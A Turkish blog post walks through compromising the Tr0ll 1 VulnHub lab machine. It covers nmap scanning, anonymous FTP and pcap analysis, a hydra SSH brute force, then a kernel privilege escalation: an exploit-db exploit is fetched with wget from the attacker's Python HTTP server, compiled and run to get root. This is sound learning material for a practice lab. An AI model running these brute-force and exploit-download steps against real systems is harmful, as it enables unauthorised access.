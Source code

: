 ```yaml
---
layout: post
title: "Tr0ll Vulnhub Writeup"
date: 2017-04-11
share: true
description: Tr0ll Vulnhub Writeup
tags:
 - vm
comments: true
---
```


# Tr0ll Vulnhub

Herkese merhabalar. Üniversite 1. sınıftan beri hep ertelediğim işi artık yapacağım! Yani Blog tutucam :) Elimden geldiğince faydalı olacağını düşündüğüm yazılar yazmaya çalışacağım. Umarım faydalı olur. O zaman başlayalım.

Bu yazı da sizlere Tr0ll isimli zaafiyetli makinenin çözümünü anlatacağım. Öncelikle makineyi indirmek için;

>[https://www.vulnhub.com/entry/tr0ll-1,100/](https://www.vulnhub.com/entry/tr0ll-1,100/)

Makinenin sanal ortamda kurulumunu tamamlandıktan sonra zaafiyetli makinenin ıp adresini tespit edip işe koyuluyoruz.
Benim kali makinemin ıp adresi 192.168.100.129.

	$ netdiscover -r 192.168.100.0/24 

![](/images/tr0ll/netd.png)
	
diyerekten makinenin ıp adresini buluyoruz.Bende 192.168.100.140 olarak gözüküyor. Ip adresini de bulduğumuza göre bir nmap taraması atıp yolumuzu buluyoruz.

![nmap](/images/tr0ll/nmap.png)

nmap parametrelerini kısaca açıklayayım;

>-sS - - - > SYN Scan. SYN bayraklı paketler yollar. Varsayılan olarak kullanılır ve oldukça hızlıdır.

>-sV - - - > Hangi servisin çalıştığını bilmek yetmez versiyon bilgileride lazımdır.Çalışan servislerin versiyon bilgisini verir.

>-A - - - > Agresif tarama yapar. İşletim sistemi bilgisini , servis ve versiyon bilgilerini verir.

>-Pn - - -> Ping atmadan taramayı gerçekleştirir.

>-p- - - - > Tüm portarı tarar.

Çıktılara bakarsak;

>1-) ftp servisi açık ve anonymous kullanıcılarına açık.
>2-) ssh servisi açık.
>3-) http servisi açık ve çoğu zaman karşılaştığımız robots.txt dosyası bulunuyor.(robots.txt dosyasına arama motorları tarafından indexlenmesini istemediğimiz url bilgilerini yazarız.)Ve secret url bulunuyor.

Öncelikle http servisinde neler bekliyor bizi bakıyoruz.

![](/images/tr0ll/1.png)

Kaynak koduna falan bakıyoruz. Cıks ekmek yok buradan. O zaman robots dosyasına göz gezdirelim.

![](/images/tr0ll/2.png)

![](/images/tr0ll/3.png)

Buradan da ekmek yok bize. O zaman ftp ye anonymous olarak giriş yapalım.

![](/images/tr0ll/4.png)

Kullanıcı adı anonymous password anonymous olarak giriş yapabiliyoruz. ls komutu ile burada neler tutuluyor diye baktığımızda lol.pcap adında dosyayı görüyoruz. Bildiğiniz gibi pcap dosyaları ağ trafiğini gösteren dosyalardır ve wireshark programı ile incelenebiliyor. Dosyayı isterseniz get dosyaAdi şeklinde kendi makinenize çekebilirsiniz isterseniz browser üzerinden ftp://ıp-adresi diyerekten görüntüleyip indirebilirsiniz.

![](/images/tr0ll/5.png)

Pcap dosyasını indirip wireshark ile incelediğimde bir FTP-DATA içerisinde bir mesajla karşılaşıyorum.

![](/images/tr0ll/6.png)

![](/images/tr0ll/8.png)

Bize sup3rs3cr3tdirlol bulmamızı söylüyor. Hemen browser üzerinde url'e yazıyoruz ve sonuc;

![](/images/tr0ll/9.png)

Dosyayı indirip file komutu ile baktığımda ELF dosyası olduğunu gördüm. Yani linux üzerinde çalışan bir dosya. Bu yüzden dosyaya chmod komutu ile çalıştırma izni verip çalıştırdım.

![](/images/tr0ll/10.png)

0x0856BF adresini bulmamızı istiyordu. Bu adresi aratırken bir anda istemeden bu makinenin çözümünü yazan elemanın sayfasında buldum kendimi. Ve yine url de aramamız gerekiyormuş. Hemen url'e bu değeri yazdım.

![](/images/tr0ll/11.png)

good_luck isimli klasöre girdiğimde which_one_lol.txt adlı dosya vardı ve içerinde kullanıcı isimleri bulunduruyordu. Diğer klasörün içerisinde ise Pass.txt dosyası bulunuyordu ve içinde 'Good_job_:)' yazıyordu.

Başta attığımız nmap taramasında hatırlarsanız ssh servisi açıktı ve bu kullanıcı isimleri ve parola ssh ile bağlanmamızı sağlayabilir. Bu yüzden bu dosyları indirip hydra aracı ile ssh servisine brute force yaptım.

Fakat denedim denedim olmadı işe yaramıyordu. Bu böyle olmazdı ve kopya çektim:) Ben Pass.txt dosyası içerisindeki 'Good_job_:)' yazısını paroladır ancak diye düşünüyordum fakat parola 'Pass.txt' imiş. Yani dosyanın ismi.

Makineyi hazırlayan arkadaşları tebrik ediyorum. Makine isminin hakkını veriyor abi. Tam troller...

Neyse hydra ile brute force yaptıktan sonra bakıyoruz ve BİNGO!

![](/images/tr0ll/12.png)

Parametrelerden kısaca bahsedersem;

>-L - - - > Bu paramatre ile kullanıcı adlarının olduğu listeyi belirtiriz. Eğer '-l' olsaydı tek kullanıcı olduğunu belirtmiş olurduk. Burada dosya içersinden teker teker dener.
>-p - - - > Bu parametre ile parola olarak 'Pass.txt' kullanmasını söyledik.
>ssh - - - > ssh servisine brute force yapacağımız belirttik.

Ve kullanıcı adı 'overflow' parola 'Pass.txt' olduğunu öğrendik.

	ssh overflow@192.168.100.140

Ve içerdeyiz canım kurban.

![](/images/tr0ll/13.png)

Hemen kullanıcı bilgisine ve çekirdek bilgisine bakalım.

![](/images/tr0ll/14.png)

Burada root yetkisine sahip komutlara baktım acaba buradan yürüyebilirmiyim diye fakat birşey çıkmadı. Daha sonra öğrendiğim çekirdek bilgisinden yola çıkarak zaafiyetini aradım ve exploit-db de yayınlanmış olan zaafiyetini gördüm.

![](/images/tr0ll/15.png)

Exploit dosyasını kali makineme indirdim. Buradan python ile http servisi başlattım.

	python -m SimpleHTTPServer 8080
	
Ssh ile bağlandığım zaafiyetle makinede /tmp klasörine gittim. Linux da tmp klasörü geçici dosyalarının tutlduğu yerdir. Yani buraya dosya yazabilirsiniz. Burada ;

	wget http://192.168.100.129:8080/37292.c

komutu ile exploit dosyasını zaafiyetli makineye çektim.

Exploit dosyası c dosyası olduğu için öncelikle bu dosyayı derleyip çalışabilir hale getirdim.

	gcc 37292.c -o exploit 
	
![](/images/tr0ll/16.png)

Ve exploiti çalıştırdığımda artık rootum.

![](/images/tr0ll/17.png)

Artık root klasörüne gidebiliriz. Burada dikkatimizi proof.txt dosyası çekiyor . Zaten makinede okumamız istenen dosya bu. Ve Dosyayı okuduğumuzda Mission Complete...

![](/images/tr0ll/18.png)










  











